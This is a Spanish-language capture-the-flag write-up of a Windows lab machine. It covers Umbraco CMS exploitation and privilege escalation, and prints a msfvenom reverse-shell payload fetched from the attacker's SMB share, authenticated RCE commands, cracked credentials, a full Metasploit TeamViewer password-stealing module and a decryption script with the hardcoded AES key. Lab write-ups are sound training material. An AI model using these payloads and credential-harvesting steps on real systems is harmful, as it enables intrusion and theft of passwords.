

## Información Básica

### Técnicas vistas

- Web Enumeration
- NFS Enumeration - Showmount
- Information Leakage
- Abusing Umbraco Admin Panel
- Umbraco CMS - Remote Code Execution by authenticated administrators
- Obtaining the TeamViewer password from the system registers (AES128 - CBC) [Privilege Escalation]

### Preparación

- eWPT
- OSCP (Escalada)

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.180 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.180`      | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack ttl 127
80/tcp    open  http         syn-ack ttl 127
111/tcp   open  rpcbind      syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
2049/tcp  open  nfs          syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49678/tcp open  unknown      syn-ack ttl 127
49679/tcp open  unknown      syn-ack ttl 127
49680/tcp open  unknown      syn-ack ttl 127
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p21,80,111,135,139,445,2049,5985,47001,49664,49665,49666,49667,49678,49679,496805 10.10.10.180 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.10.180`      | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-20T22:16:44
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

### Fuzzing

Usaremos **wfuzz** para descubrir archivos ocultos en la web:

```bash wrap=false
❯ wfuzz -c -L --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt http://10.10.10.180/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.180/FUZZ
Total requests: 26583

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000228:   500        80 L     276 W      3420 Ch     "product"                                                                                                              
000000029:   200        124 L    331 W      7880 Ch     "contact"                                                                                                              
000000051:   200        95 L     189 W      4040 Ch     "install"                                                                                                              
000000299:   200        116 L    222 W      3313 Ch     "intranet"                                                                                                             
000000170:   200        129 L    302 W      5320 Ch     "products"                                                                                                             
000000779:   200        161 L    428 W      5441 Ch     "about-us"                                                                                                             
000000712:   200        167 L    330 W      6739 Ch     "people"                                                                                                               
000000845:   200        95 L     189 W      4040 Ch     "umbraco"                                                                                                              
```

### Umbraco CMS

La ruta **Umbraco** nos redirije al panel de login de dicho `CMS`:



### Searchsploit

Vamos a buscar vulnerabilidades:

```bash wrap=false
❯ searchsploit Umbraco CMS
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)                                                                                                   | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                                                                            | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                                            | aspx/webapps/49488.py
Umbraco CMS 8.9.1 - Directory Traversal                                                                                                               | aspx/webapps/50241.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                                                                            | php/webapps/44988.txt
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

No vemos nada muy interesante de momento porque necesitan autenticación.

### NFS (Network File System)

En el puerto `111` teneos disponible **NFS** (*Network File System*) y **mountd**, vamos a comprobar que recursos están disponibles. Esto lo haremos mediante el comando:

```bash wrap=false
❯ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

Vemos que nos comparte un directorio de manera pública, para ver que contiene deberemos hacer lo siguiente:

```bash wrap=false title='Creamos el directorio'
sudo mkdir -p /mnt/remote
```

```bash wrap=false title='Montamos el export'
sudo mount -t nfs -o ro,nolock,vers=3 10.10.10.180:/site_backups /mnt/remote
```

Ahora si accedemos al directorio podremos ver lo que nos comparte el servidor:

```bash wrap=false title='Contenido del export'
❯ ls -lah
drwx------ nobody nogroup 4.0 KB Sun Feb 23 19:35:48 2020  .
drwxr-xr-x root   root    4.0 KB Wed Sep 24 16:06:29 2025  ..
drwx------ nobody nogroup  64 B  Thu Feb 20 18:16:39 2020  App_Browsers
drwx------ nobody nogroup 4.0 KB Thu Feb 20 18:17:19 2020  App_Data
drwx------ nobody nogroup 4.0 KB Thu Feb 20 18:16:40 2020  App_Plugins
drwx------ nobody nogroup  64 B  Thu Feb 20 18:16:40 2020  aspnet_client
drwx------ nobody nogroup  48 KB Thu Feb 20 18:16:42 2020  bin
drwx------ nobody nogroup 8.0 KB Thu Feb 20 18:16:42 2020  Config
drwx------ nobody nogroup  64 B  Thu Feb 20 18:16:42 2020  css
drwx------ nobody nogroup 4.0 KB Thu Feb 20 18:16:42 2020  Media
drwx------ nobody nogroup  64 B  Thu Feb 20 18:16:42 2020  scripts
drwx------ nobody nogroup 8.0 KB Thu Feb 20 18:16:47 2020  Umbraco
drwx------ nobody nogroup 4.0 KB Thu Feb 20 18:16:47 2020  Umbraco_Client
drwx------ nobody nogroup 4.0 KB Thu Feb 20 18:16:47 2020  Views
.rwx------ nobody nogroup 152 B  Thu Nov  1 18:06:44 2018  default.aspx
.rwx------ nobody nogroup  89 B  Thu Nov  1 18:06:44 2018  Global.asax
.rwx------ nobody nogroup  28 KB Thu Feb 20 06:57:54 2020  Web.config
```

Después de revisar todo el contenido, dentro de `App_Data` encontramos lo siguiente:

```bash wrap=false
❯ grep --color=auto -rnw '/mnt/remote/App_Data' -ie "admin" --color=always 2>/dev/null
/mnt/remote/App_Data/Logs/UmbracoTraceLog.intranet.txt:79: 2020-02-20 00:12:13,455 [P4408/D19/T40] INFO  Umbraco.Core.Security.BackOfficeSignInManager - Event Id: 0, state: Login attempt succeeded for username admin@htb.local from IP address 192.168.195.1
```
Dentro de dicho directorio `App_Data`, está el archivo `Umbraco.sdf` que es un binario. Si usamos el comando **strings** para ver cadenas de strings dentro del archivo:

```bash wrap=false
❯ strings Umbraco.sdf | grep --color=auto -ie "admin@htb.local" --color=always 2>/dev/null
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
```

### John The Ripper

```bash wrap=false title='Crackeamos el hash'
❯ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)     
1g 0:00:00:00 DONE (2025-09-24 17:09) 1.694g/s 16650Kp/s 16650Kc/s 16650KC/s baconandchipies1..bacon918
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

Y ya tendremos las credenciales `admin@htb.local:baconandcheese`.

## Explotación

Si descargamos el `exploit` que vimos antes, y lo usamos:

```bash wrap=false
❯ python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c whoami
iis apppool\defaultapppool
```

Teniendo un `RCE` vamos a crear un **meterpreter** de `metasploit` para entablarnos una `reverse shell`:

```bash wrap=false title='Generamos el payload'
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: revshell.exe
```

```bash wrap=false title='Levantamos servidor SMB'
❯ impacket-smbserver share . -smb2support
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

```bash wrap=false title='Subimos el payload'
python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a "copy //10.10.14.15/share/revshell.exe /Windows/Temp/revshell.exe"
```

```bash wrap=false title='Nos ponemos en escucha con netcat'
❯ sudo nc -lvnp 4444
[sudo] contraseña para zelpro: 
listening on [any] 4444 ...
```

```bash wrap=false title='Ejecutamos el payload'
python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a "/Windows/Temp/revshell.exe"
```

```bash wrap=false title='Recibimos la reverse shell'
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool

C:\Users\Public\Desktop>type user.txt
1de34bdcb0142d7215b1...
```

## Escalada de privilegios

Si usamos el comando `tasklist` para ver los procesos que están corriendo podemos ver **Team Viewer**:

```bash wrap=false
C:\Users\Public\Desktop>  tasklist
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0                            0          8 K
System                           4                            0        144 K
Registry                        88                            0     20,856 K
smss.exe                       292                            0      1,240 K
csrss.exe                      372                            0      5,232 K
wininit.exe                    480                            0      6,952 K
csrss.exe                      488                            1      4,752 K
winlogon.exe                   544                            1     16,328 K
services.exe                   620                            0      7,976 K
lsass.exe                      636                            0     14,296 K
svchost.exe                    740                            0     14,408 K
fontdrvhost.exe                768                            0      4,032 K
fontdrvhost.exe                764                            1      4,300 K
svchost.exe                    848                            0     10,200 K
dwm.exe                        924                            1     36,304 K
svchost.exe                    976                            0     58,744 K
svchost.exe                     68                            0     18,992 K
svchost.exe                    248                            0     17,804 K
svchost.exe                   1048                            0     15,700 K
svchost.exe                   1056                            0     19,388 K
vm3dservice.exe               1140                            0      6,608 K
svchost.exe                   1172                            0     21,952 K
svchost.exe                   1332                            0      7,892 K
svchost.exe                   1396                            0     15,776 K
svchost.exe                   1620                            0      7,324 K
spoolsv.exe                   1936                            0     16,424 K
svchost.exe                   2004                            0     10,820 K
svchost.exe                   2012                            0     33,876 K
svchost.exe                   2024                            0     12,012 K
inetinfo.exe                   664                            0     15,420 K
svchost.exe                   2128                            0     12,416 K
vmtoolsd.exe                  2164                            0     18,980 K
svchost.exe                   2184                            0      7,488 K
TeamViewer_Service.exe        2192                            0     22,788 K
VGAuthService.exe             2200                            0     10,576 K
svchost.exe                   2212                            0      8,468 K
MsMpEng.exe                   2220                            0    113,368 K
nfssvc.exe                    2332                            0      5,308 K
svchost.exe                   2344                            0     12,328 K
dllhost.exe                   1452                            0     13,488 K
msdtc.exe                     3188                            0     10,412 K
WmiPrvSE.exe                  3444                            0     19,424 K
LogonUI.exe                   3776                            1     45,732 K
SecurityHealthService.exe     3712                            0     10,808 K
w3wp.exe                      4344                            0    384,928 K
SearchIndexer.exe              760                            0     19,716 K
svchost.exe                   4500                            0     12,860 K
cmd.exe                       3784                            0      4,656 K
conhost.exe                   1032                            0     10,896 K
tasklist.exe                  7332                            0      7,776 K
```

En **metasploit** tenemoms un módulo para conseguir las credenciales de este servicio, lo podemos buscar de la siguiente manera:

```bash wrap=false
❯ locate teamviewer | grep metasploit
/usr/share/doc/metasploit-framework/modules/auxiliary/server/teamviewer_uri_smb_redirect.md
/usr/share/doc/metasploit-framework/modules/post/windows/gather/credentials/teamviewer_passwords.md
/usr/share/metasploit-framework/modules/auxiliary/server/teamviewer_uri_smb_redirect.rb
/usr/share/metasploit-framework/modules/post/windows/gather/credentials/teamviewer_passwords.rb
```

```ruby wrap=false title='/usr/share/metasploit-framework/modules/post/windows/gather/credentials/teamviewer_passwords.rb'
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
#
# @blurbdust based this code off of https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/gpp.rb
# and https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/enum_ms_product_keys.rb
##

class MetasploitModule < Msf::Post
  include Msf::Post::Windows::Registry

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Windows Gather TeamViewer Passwords',
        'Description' => %q{ This module will find and decrypt stored TeamViewer passwords },
        'License' => MSF_LICENSE,
        'References' => [
          ['CVE', '2019-18988'], [ 'URL', 'https://whynotsecurity.com/blog/teamviewer/'],
          [ 'URL', 'https://www.cnblogs.com/Kali-Team/p/12468066.html' ]
        ],
        'Author' => [ 'Nic Losby <blurbdust[at]gmail.com>', 'Kali-Team <kali-team[at]qq.com>'],
        'Platform' => [ 'win' ],
        'SessionTypes' => [ 'meterpreter' ],
        'Notes' => {
          'Stability' => [CRASH_SAFE],
          'SideEffects' => [],
          'Reliability' => []
        },
        'Compat' => {
          'Meterpreter' => {
            'Commands' => %w[
              stdapi_railgun_api
              stdapi_railgun_api_multi
              stdapi_railgun_memread
              stdapi_railgun_memwrite
              stdapi_sys_process_get_processes
            ]
          }
        }
      )
    )
    register_options(
      [
        OptString.new('WINDOW_TITLE', [ false, 'Specify a title for getting the window handle, e.g. TeamViewer', 'TeamViewer']),
      ]
    )
  end

  def app_list
    results = ''
    keys = [
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7', 'Version' ],
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version8', 'Version' ],
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version9', 'Version' ],
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version10', 'Version' ],
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version11', 'Version' ],
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version12', 'Version' ],
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version13', 'Version' ],
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version14', 'Version' ],
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version15', 'Version' ],
      [ 'HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer', 'Version' ],
      [ 'HKLM\\SOFTWARE\\TeamViewer\\Temp', 'SecurityPasswordExported' ],
      [ 'HKLM\\SOFTWARE\\TeamViewer', 'Version' ],
    ]

    locations = [
      { value: 'OptionsPasswordAES', description: 'Options Password' },
      { value: 'SecurityPasswordAES', description: 'Unattended Password' }, # for < v9.x
      { value: 'SecurityPasswordExported', description: 'Exported Unattended Password' },
      { value: 'ServerPasswordAES', description: 'Backend Server Password' }, # unused according to TeamViewer
      { value: 'ProxyPasswordAES', description: 'Proxy Password' },
      { value: 'LicenseKeyAES', description: 'Perpetual License Key' }, # for <= v14
    ]

    keys.each_key do |parent_key|
      locations.each do |location|
        secret = registry_getvaldata(parent_key, location[:value])
        next if secret.nil?

        plaintext = decrypt(secret)
        next if plaintext.nil?

        print_good("Found #{location[:description]}: #{plaintext}")
        results << "#{location[:description]}: #{plaintext}\n"
        store_valid_credential(
          user: nil,
          private: plaintext,
          private_type: :password,
          service_data: {
            address: session.session_host,
            last_attempted_at: nil,
            origin_type: :session,
            port: 5938, # https://community.teamviewer.com/t5/Knowledge-Base/Which-ports-are-used-by-TeamViewer/ta-p/4139
            post_reference_name: refname,
            protocol: 'tcp',
            service_name: 'teamviewer',
            session_id: session_db_id,
            status: Metasploit::Model::Login::Status::UNTRIED
          }
        )
      end
    end

    # Only save data to disk when there's something in the table
    unless results.empty?
      path = store_loot('host.teamviewer_passwords', 'text/plain', session, results, 'teamviewer_passwords.txt', 'TeamViewer Passwords')
      print_good("Passwords stored in: #{path}")
    end
  end

  def decrypt(encrypted_data)
    password = ''
    return password unless encrypted_data

    password = ''

    key = "\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    iv = "\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    aes = OpenSSL::Cipher.new('AES-128-CBC')
    begin
      aes.decrypt
      aes.key = key
      aes.iv = iv
      plaintext = aes.update(encrypted_data)
      password = Rex::Text.to_ascii(plaintext, 'utf-16le')
      if plaintext.empty?
        return nil
      end
    rescue OpenSSL::Cipher::CipherError => e
      print_error("Unable to decrypt the data. Exception: #{e}")
    end

    password
  end

  def get_window_text(window_hwnd)
    if window_hwnd
      addr = session.railgun.util.alloc_and_write_wstring('Kali-Team')
      client.railgun.user32.SendMessageW(window_hwnd, 'WM_GETTEXT', 1024, addr)
      text = session.railgun.util.read_wstring(addr)
      session.railgun.util.free_data(addr)
      if text.strip == ''
        return nil
      else
        return text
      end
    else
      return nil
    end
  end

  # EnumWindows Function not work in RailGun, I don't know how to define the lpEnumFunc parameter
  def enum_id_and_password(hwnd_main)
    hwnd_mwrcp = client.railgun.user32.FindWindowExW(hwnd_main, nil, 'MainWindowRemoteControlPage', nil)
    hwnd_irccv = client.railgun.user32.FindWindowExW(hwnd_mwrcp['return'], nil, 'IncomingRemoteControlComponentView', nil)
    hwnd_custom_runner_id = client.railgun.user32.FindWindowExW(hwnd_irccv['return'], nil, 'CustomRunner', nil)
    hwnd_custom_runner_pass = client.railgun.user32.FindWindowExW(hwnd_irccv['return'], hwnd_custom_runner_id['return'], 'CustomRunner', nil)
    #  find edit box handle
    hwnd_id_edit_box = client.railgun.user32.FindWindowExW(hwnd_custom_runner_id['return'], nil, 'Edit', nil)
    print_status("Found handle to ID edit box 0x#{hwnd_id_edit_box['return'].to_s(16).rjust(8, '0')}")
    hwnd_pass_edit_box = client.railgun.user32.FindWindowExW(hwnd_custom_runner_pass['return'], nil, 'Edit', nil)
    print_status("Found handle to Password edit box 0x#{hwnd_pass_edit_box['return'].to_s(16).rjust(8, '0')}")
    #  get window text
    if hwnd_id_edit_box['return'] && hwnd_pass_edit_box['return']
      print_good("ID: #{get_window_text(hwnd_id_edit_box['return'])}")
      print_good("PASSWORD: #{get_window_text(hwnd_pass_edit_box['return'])}")
    else
      print_error('Handle for TeamViewer ID or password edit box not found')
    end
  end

  def enum_email_and_password(hwnd_main)
    hwnd_lp = client.railgun.user32.FindWindowExW(hwnd_main, nil, 'LoginPage', nil)
    hwnd_lfv = client.railgun.user32.FindWindowExW(hwnd_lp['return'], nil, 'LoginFormView', nil)
    #  find edit box handle
    hwnd_email_edit_box = client.railgun.user32.FindWindowExW(hwnd_lfv['return'], nil, 'Edit', nil)
    print_status("Found handle to Email edit box 0x#{hwnd_email_edit_box['return'].to_s(16).rjust(8, '0')}")
    hwnd_pass_edit_box = client.railgun.user32.FindWindowExW(hwnd_lfv['return'], hwnd_email_edit_box['return'], 'Edit', nil)
    print_status("Found handle to Password edit box 0x#{hwnd_pass_edit_box['return'].to_s(16).rjust(8, '0')}")
    #  Remove ES_PASSWORD style
    #  https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowlongw
    #  https://docs.microsoft.com/en-us/windows/win32/controls/edit-control-styles
    #  GWL_STYLE  -16
    client.railgun.user32.SetWindowWord(hwnd_pass_edit_box['return'], -16, 0)
    #  get window text
    email_text = get_window_text(hwnd_email_edit_box['return'])
    pass_text = get_window_text(hwnd_pass_edit_box['return'])
    if email_text
      print_good("EMAIL: #{email_text}")
    else
      print_error('Handle for TeamViewer ID or Password edit box not found')
    end
    if pass_text
      print_good("PASSWORD: #{pass_text}")
    else
      print_error('No password in Password edit box')
    end
  end

  def run
    print_status("Finding TeamViewer Passwords on #{sysinfo['Computer']}")
    app_list

    print_status('<---------------- | Using Window Technique | ---------------->')
    parent_key = 'HKEY_CURRENT_USER\\Software\\TeamViewer'
    language = registry_getvaldata(parent_key, 'SelectedLanguage')
    version = registry_getvaldata(parent_key, 'IntroscreenShownVersion')
    print_status("TeamViewer's language setting options are '#{language}'")
    print_status("TeamViewer's version is '#{version}'")
    hwnd = client.railgun.user32.FindWindowW('#32770', datastore['WINDOW_TITLE'])['return']

    #  Try to get window handle through registry
    if !hwnd
      hwnd = registry_getvaldata(parent_key, 'MainWindowHandle')
    end
    if hwnd != 0
      print_good("TeamViewer's  title is '#{get_window_text(hwnd)}'")
      enum_id_and_password(hwnd)
      enum_email_and_password(hwnd)
    else
      if !session.sys.process.each_process.find { |i| i['name'].downcase == 'TeamViewer.exe'.downcase }
        print_error('Unable to find TeamViewer\'s process')
        return false
      end
      print_error('Unable to find TeamViewer\'s window. Try to set window title')
      return false
    end
  end
end
```

Primero necesitamos ver que versión se está usando:

```bash wrap=false
C:\Program Files (x86)\TeamViewer>dir
 Volume in drive C has no label.
 Volume Serial Number is D582-9880

 Directory of C:\Program Files (x86)\TeamViewer

02/20/2020  03:14 AM    <DIR>          .
02/20/2020  03:14 AM    <DIR>          ..
09/25/2025  05:42 AM    <DIR>          Version7
               0 File(s)              0 bytes
               3 Dir(s)  13,256,019,968 bytes free
```

Sabiendo la versión, abriremos una terminal `powershell` y accederemos al siguiente directorio:

```powershell wrap=false
PS C:\> cd HKLM:SOFTWARE\WOW6432Node\TeamViewer\Version7
```

Una vez aquí obtendremos `SecurityPasswordAES` con los siguientes comandos:

```powershell wrap=false
PS HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7> Get-ItemProperty .
StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056945C52}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1704810710
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer
PSChildName               : Version7
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry

PS HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7> (Get-ItemProperty .).SecurityPasswordAES              
255
155
28
115
214
107
206
49
172
65
62
174
19
27
70
79
88
47
108
226
209
225
243
218
126
141
55
107
38
57
78
91
```

Esto es lo único que necesitamos, vamos a montarnos un script con `python` para conseguir la contraseña. La clave es `AES-128-CBC`.

```python wrap=false title='Script para extraer la contraseña'
from itertools import product
from Crypto.Cipher import AES
import Crypto.Cipher.AES

# Obtenidos del propio script de metasploit
IV = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"

# AES-128-CBC Visto en el script de metasploit
decipher = AES.new(key,AES.MODE_CBC,IV)

# SecurityPasswordAES
ciphertext = bytes([255,155,28,115,214,107,206,49,172,65,62,174,19,27,70,79,88,47,108,226,209,225,243,218,126,141,55,107,38,57,78,91])

plaintext = decipher.decrypt(ciphertext).decode()

print(plaintext)
```

```bash wrap=false
❯ python3 decrypt_password.py
!R3m0te!
```

Vamos a ver si podemos conectarnos en remoto con `crackmapexec`:

```bash wrap=false
❯ crackmapexec winrm 10.10.10.180 -u 'Administrator' -p '!R3m0te!'
SMB         10.10.10.180    5985   REMOTE           [*] Windows 10 / Server 2019 Build 17763 (name:REMOTE) (domain:remote)
HTTP        10.10.10.180    5985   REMOTE           [*] http://10.10.10.180:5985/wsman
